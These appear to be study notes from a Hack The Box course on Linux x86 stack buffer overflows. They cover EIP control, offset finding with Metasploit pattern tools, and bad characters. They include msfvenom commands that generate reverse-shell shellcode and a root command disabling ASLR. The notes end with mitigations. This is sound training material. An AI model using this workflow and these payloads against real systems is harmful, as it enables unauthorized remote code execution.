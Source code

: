 ## Buffer Overflows Overview : 

Buffer overflows have become less common in todays world as modern compilers have built in memory-protections that make it difficult for memory corruption bugs to occur accidentally. That being said languages like C are not going to go away anytime soon and they are predominate in embedded software and IOT (Internet of Things).

## Exploit Development Introduction : 

An `0-day exploit` is a code that exploits a newly identified vulnerability in a specific application.

When they are published, they talk about `N-day exploits`, counting the days between the publication of the exploit and an attack on the unpatched systems.

Also, these exploits can be divided into four different categories:
- `Local`.
- `Remote`.
- `DoS`.
- `WebApp`.

## CPU Architecture : 

The architecture of the `Von-Neumann` was developed by the Hungarian mathematician John von Neumann, and it consists of four functional units :
- `Memory`
- `Control Unit`
- `Arithmetical Logical Unit`
- `Input/Output Unit`

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/von_neumann3.webp)

There are four different types of `ISA`:
- `CISC` - `Complex Instruction Set Computing`
- `RISC` - `Reduced Instruction Set Computing`
- `VLIW` - `Very Long Instruction Word`
- `EPIC` - `Explicitly Parallel Instruction Computing`

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/Instruction.png)

## Stack-Based Buffer Overflow : 

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/buffer_overflow_1.webp)
#### .text
The `.text` section contains the actual assembler instructions of the program. This area can be read-only to prevent the process from accidentally modifying its instructions. Any attempt to write to this area will inevitably result in a segmentation fault.
#### .data
The `.data` section contains global and static variables that are explicitly initialized by the program.
#### .bss
Several compilers and linkers use the `.bss` section as part of the data segment, which contains statically allocated variables represented exclusively by 0 bits.

Vulnerable C Functions : 
- `strcpy`
- `gets`
- `sprintf`
- `scanf`
- `strcat`

```shell
(gdb) set disassembly-flavor intel
(gdb) disassemble main
```

Modern operating systems have built-in protections against such vulnerabilities, like Address Space Layout Randomization (ASLR). For the purpose of learning the basics of buffer overflow exploitation, we are going to disable this memory protection features :

```shell-session
student@nix-bow:~$ sudo su
root@nix-bow:/home/student# echo 0 > /proc/sys/kernel/randomize_va_space
```

## CPU Registers : 

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/Registers.png)

## Take Control of EIP : 

One of the most important aspects of a stack-based buffer overflow is to get the `instruction pointer` (`EIP`) under control, so we can tell it to which address it should jump. This will make the `EIP` point to the address where our `shellcode` starts and causes the CPU to execute it.

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/buffer_overflow_2.webp)

```
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 


/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 0x69423569

info registers
```

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/buffer_overflow_3.webp)
![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/buffer_overflow_4.webp)

## Determine the Length for Shellcode :

Now we should find out how much space we have for our shellcode to perform the action we want. It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use `msfvenom`.

```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c


No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
```

Let us briefly summarize what we need for this:
1. We need a total of 1040 bytes to get to the `EIP`.
2. Here, we can use an additional `100 bytes` of `NOPs`
3. `150 bytes` for our `shellcode`.

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/buffer_overflow_8.webp)
![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/buffer_overflow_7.webp)

# Identification of Bad Characters :

Previously in UNIX-like operating systems, binaries started with two bytes containing a "`magic number`" that determines the file type. In the beginning, this was used to identify object files for different platforms. Gradually this concept was transferred to other files, and now almost every file contains a magic number.

Such reserved characters also exist in applications, but they do not always occur and are not still the same. These reserved characters, also known as `bad characters` can vary, but often we will see characters like this :

- `\x00` - Null Byte
- `\x0A` - Line Feed
- `\x0D` - Carriage Return
- `\xFF` - Form Feed

## Generating Shellcode : 

We already got to know the tool `msfvenom` with which we generated our shellcode's approximate length. Now we can use this tool again to generate the actual shellcode, which makes the CPU of our target system execute the command we want to have.

```shell
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

info proc all
```

## Identification of the Return Address : 

After checking that we still control the EIP with our shellcode, we now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously.

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Linux%20x86/Images/buffer_overflow_9.webp)

## Prevention Techniques and Mechanisms : 

### Canaries

The `canaries` are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.

### Address Space Layout Randomization (ASLR)

Address Space Layout Randomization (`ASLR`) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.

### Data Execution Prevention (DEP)

`DEP` is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

